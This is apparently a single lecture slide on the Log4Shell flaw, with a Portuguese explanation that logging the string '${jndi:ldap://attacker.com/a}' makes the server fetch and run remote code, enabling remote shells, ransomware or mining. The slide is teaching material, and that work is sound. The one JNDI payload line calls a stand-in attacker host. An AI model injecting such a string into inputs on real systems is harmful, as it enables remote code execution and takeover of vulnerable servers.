

String data = "${jndi:ldap://attacker.com/a}";
logger.info(data);

Acessa um servidor remoto e  baixa código (objeto serializável), que vai ser então executado localmente.

Remote Code Execution (RCE), Remote Shell
Ransomware, Cryptomining
etc
71